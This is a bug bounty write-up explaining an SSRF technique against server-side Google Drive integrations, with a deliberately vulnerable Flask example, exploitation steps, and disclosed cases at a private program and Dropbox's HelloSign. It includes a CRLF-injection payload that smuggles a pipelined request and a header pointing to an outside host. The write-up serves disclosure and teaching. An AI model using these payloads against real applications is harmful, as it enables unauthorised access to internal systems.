 # Hacking Google Drive Integrations

Have you ever observed Google Drive integrations in your bug bounty targets and wondered what else might be there besides the OAuth CSRF? Is it possible to hack this integration a step further? That's exactly what we'll explore today.

Before we go into the vulnerability, let's take a look at how Google Drive is typically integrated into applications.

There are generally three ways;

- Client side embed.
- Get CDN Url on client side and download on server side.
- Fetch the file on server side via Gdrive API.

The first two are relatively straight forward to test but the last one is where the fun lies.

To understand this, consider a simple application that retrieves and renders a selected image file from Gdrive. I realize this isn't necessary, but I'm attempting to show how things function behind the hood for the purpose of reader's understanding.

Here's the two routes responsible to list and render your google drive image file provided your access token.

```python

#List images from Gdrive

@app.route('/cloud/gdrive/list')
def list_files():
    token = request.args.get('access_token')
    html = ""
    if token:
      r = requests.get('https://www.googleapis.com/drive/v2/files/',headers={'Authorization': 'Bearer '+token})
      resp = json.loads(r.text)
      print(resp)
      for file in resp['items']:
        if file['mimeType'].startswith('image/'):
          html += "<a href='/cloud/gdrive/fetch?file_id="+file['id']+"&access_token="+token+"'>"+file['title']+"</a><br>"    
      return "Select Gdrive image (max 1mb) to fetch <br><br>" + html

    else:
      return "Error"

#Render provided image id from gdrive

@app.route('/cloud/gdrive/fetch')
def fetch_gdrive_video():
    token = request.args.get('access_token')
    file_id = request.args.get('file_id')
    if token and file_id:
      try:
        r = requests.get('https://www.googleapis.com/drive/v2/files/'+file_id,headers={'Authorization': 'Bearer '+token})
        download_url = json.loads(r.text)['downloadUrl']
        d = requests.get(download_url,headers={'Authorization': 'Bearer '+token})
      except Exception as e:
        return Response(str(e), headers={'Content-type':'text/plain'})
      return Response(d.content, headers={'Content-type':'image/png'})
    else: 
      return "Error"

```

![image](https://user-images.githubusercontent.com/21000421/147161950-04263058-f36b-4062-a061-b0b35385e407.png)

The above code should make this easier to understand - We have control in path of the HTTP request made to www.googleapis.com via the file_id. This means we can do a path traversal and add query parameters. At this point you'd want an open redirect on www.googleapis.com to do an SSRF. I didn't find one but I found another cool way. 

To recap this is what's being done on backend;

- Make a request to GDrive API for user's provided file
- Parse the JSON response of Google Drive
- Extract `downloadUrl` key's value from parsed JSON
- Make request to the download url
- Render the response

Simple, however, things will go bad if we control the JSON response to be parsed in 2nd step, as now we control the downloadUrl. There's this magic parameter "alt=media" which would serve the file itself rather than the JSON object and now if the application is relaying on parsing the JSON and extracting "downloadUrl", we have control over it.

 ![image](https://user-images.githubusercontent.com/21000421/147611203-a7fca52f-ad87-4f84-bdbd-97d74ab3e886.png)

Knowing this we can craft a file that on being requested with "alt=media" query param on this application would cause an SSRF attack.

- Create a file call it payload.txt
- Place same File JSON Object into it
- Change the downloadUrl to your URL
- Make a request with `file_id=fildId?alt=media&access_token=abcdef`
- Malicious JSON is parsed and we'll have hit on our own URL from server side. 
- Depending on the application logic this leads to blind/responsive SSRF.

### PoC 

![image](https://user-images.githubusercontent.com/21000421/147612095-d494ef14-70dc-4796-bb29-d74d4cb8dac3.png)


## Case Studies

I've discovered multiple applications vulnerable to this issue in Gdrive integrations due to either lack of sanitization / not using SDK.

Discovery on a private program was by far the finest, but the Dropbox discovery astounded me because I hadn't looked for it there in three years. It's a good reminder that bug bounty collabarotion is important. Thanks Ian.

### Private Program's Partial Read SSRF

This app's Google Drive integration allowed us to import slides from Google, fyi, doc/slides/sheets all are fetched via Drive API generally. 

```
PUT /gdrive/import/ HTTP/2
Host: redacted.com
...

{"fileId":"gdrive_file_id","fileName":"testest","authToken":"gdrive_auth_token","fileType":"slides"}
```

However, this apps's implementation only suffers from path traversal and not adding query params thus preventing the attack. As such, I had to find a way around it. It was then noted that the "authToken" property which adds its value in request headers suffers from a CRLF thus allowing us to control part of request headers/body.

Using this I was able to craft a new request to www.googleapis.com with my controlled query params using [request pipelining](https://stackoverflow.com/questions/19619124/http-pipelining-request-text-example).

Payload would be something like this;

```
PUT /gdrive/import/ HTTP/2
Host: redacted.com
...

{"fileId":"test","fileName":"test","authToken":"x\r\nSSRF:http://rce.ee/aaaaazzzzza\r\nConnection:keep-alive\r\n\r\nGET /drive/v2/files/1XfY_BqdWT-UWM2CNivW1lSR2GhRCizdJ?alt=media HTTP/1.1\r\nHost:www.googleapis.com\r\nAuthorization: Bearer REDACTEDr\n\r\n","fileType":"slides"}
```

Now we could perfrom the alt=media trick, The JSON served is our controlled response on Google drive thus giving us control on the URL. The file fetched first gets parsed as PPT, thus preventing full read access but I suspect the download file is already being stored on CDN regardless of parsing failure. Anyways, to obtain response, we simply redirect to a page which gives a 404 thus getting an exception at Java level which gets thrown in the web app. 

![image](https://user-images.githubusercontent.com/21000421/148796753-ddb57543-596c-4779-99d6-bbe4fd0efaac.png)

Note - the header "SSRF", this is basically read by my server to redirect to internal host.

I wanted to try some pptx related attack but the team was proactive and was monitoring my exploits and already had fixed in production before I woke up next day. Team's response ;)


```
While you were playing with our systems our alerting went batshit, so we were able to react pretty quickly. We deployed quick fix for the issue. Would you be so kind and validate if our quick attempt was successful?
```

### Dropbox's Full Read SSRF

I was informed by [Ian](https://twitter.com/iangcarroll) that Dropbox has Gdrive integrations in both Dropbox and HelloSign. Hellosign's integration was found to be vulnerable with this exploit. I found this bug back in 2019 and its funny I didn't look for this on Dropbox's public program until Ian told me. The bug was pretty simple as such I'm just pointing this section to the report - https://hackerone.com/reports/1406938. This led to a nice bounty of $17,576 through [Dropbox's HackerOne program](https://hackerone.com/dropbox?type=team).

![image](https://user-images.githubusercontent.com/21000421/147614291-8c6cdd59-cd13-4149-ad6d-0183e11b17f6.png)


This is a problem that affects a variety of applications. I also wanted to emphasize why it's critical to understand how things work behind the scenes. It's crucial to consider anything and think what might happen on the backend. In 2019, I looked at one of Vimeo's programs and wondered how they would get the gdrive file, making an API request? Isn't it a path traversal if it's a REST API with my input in the URL? If that's the case, there's a small chance of an SSRF with an open redirect on Google APIs and here we are.

That's all. Thanks for reading! If you enjoyed this and other articles in this repo please consider retweeting and following [HTTPVoid on Twitter](https://twitter.com/httpvoid0x2f).

Author;

Harsh, HTTPVoid